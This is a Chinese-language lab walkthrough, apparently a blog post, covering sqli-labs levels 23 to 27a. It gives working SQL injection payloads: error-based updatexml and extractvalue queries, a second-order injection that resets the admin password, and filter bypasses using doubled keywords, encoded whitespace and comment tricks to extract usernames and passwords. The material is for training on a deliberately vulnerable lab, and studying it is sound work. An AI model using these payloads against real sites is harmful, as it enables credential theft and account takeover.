


### Less-23
过滤了`#` 和`--+`等闭合的符号，所以通过 `or '1'='1` 来闭合后面的引号,仍然使用之前的报错原理
```
-1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```
<!--more-->
获取security数据库的所有表单
```
-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) or '1'='1
```

获取user表所有字段
```
-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) or '1'='1
```
获取username/password
```
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1) or '1'='1
-1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) or '1'='1
```
如果长度不够，可以通过limit 0,1这样的手法拿到所有数据

### Less-24 
#### 二次注入，可以概括为以下两步:
第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。

第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。
本地登录的地方我们发现万能密码失败，于是查看源码
```
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
由于对于我们的账号密码使用`mysql_real_escape_string`转义过。
本题可以采用二次注入
1. 首先创建一个user叫做`admin'#`,密码随意，我们可以看到，数据库中真的就出现了这么一条数据
2. 然后使用`admin'#`加上自己的密码登录
3. 然后修改密码为123456，最后效果居然是将admin用户改为123456的密码，自己新建的账号密码还是自己设定的
##### why?
首先我们看更新密码的查询语句为
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
这是因为上面的数据库更新语句，在用户名为 "admin'#" 时执行的实际是：
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```
等同于
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin';
```

### Less-25
把 or、and过滤了,其实好像也没怎么用上，而且发现只是一次过滤，通过双写绕过，那么和第一题就差不多了
比如order中有or所以可以写成oorrder,将其中的一个or过滤后剩下为order
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-25a
先寻找注入点
```
1" oorr 1 %23
1' oorr 1 %23
1 oorr 1 %23
```
只有第三种没啥问题，所以本题就是不需要加引号直接注入
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-26
空格与注释被过滤了,最后的注释可以使用`or '1'='1` 来闭合，
然后空格可以用这些代替
```
%09 = TAB键（水平）

%0a = 新建一行

%0c = 新的一页

%0d = return功能

%0b = TAB键（垂直）

%a0 = 空格

&&(%26%26) = and
```
使用报错注入
```
0'||updatexml(1,concat(0x7e,(database()),0x7e),1)||'1'='1
```
这样是没问题的，然后爆库
```
0%27||updatexml(1,concat(0x7e,(select%0Agroup_concat(schema_name)%0Afrom%0Ainfoorrmation_schema.schemata),0x7e),1)||%271%27=%271
```
然后不行了，黑人问号？
试试直接拿数据
```
0%27||updatexml(1,concat(0x7e,(select%0agroup_concat(username)%0afrom%0ausers),0x7e),1)||%271%27=%271
```


最后网上有师傅回答是windows系统的缘故？然后发现可以用括号过滤乖乖
```
0'||extractvalue(1, concat(0x5c,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'1'='1
```
表名
```
0'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
```
字段名
```
0'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1
```
数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1
```

### Less-26-a
题目提示空格与注释被过滤了而且加了括号，所以还是盲注解决吧(其实还是windows环境的锅导致%0a等不能实现，正经的服务器应该不会是windows的吧)
所以这样是可以de
```
100')union%a0select%a01,user(),('3
```
### Less-27
题目提示union与select被过滤了，可直接报错使用，当然也可以大小写来绕过还是上面的问题，因为windows的服务器，%0a不用，所以还是使用报错来写
```
0'||(updatexml(1,concat(0x5e5e,database()),1))||'1'='
```
然后想拿数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',password))from(users)where(username)='admin')),0)||'1'='
```
很好就报错了

然后发现有师傅提供了一种非常骚的做法,用`/*%0a*/`强行制造空格。awsl
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/'1'='1
```
表名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema='security'),4/*%0a*/||/*%0a*/'1'='1
```
字段名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(column_name)/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_schema='security'/*%0a*/%26%26/*%0a*/table_name='users'),4/*%0a*/||/*%0a*/'1'='1
```
数据
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),4/*%0a*/||/*%0a*/'1'='1
```
### Less-27-a
把单引号改成双引号即可
```
0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/"1"="1
```

更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)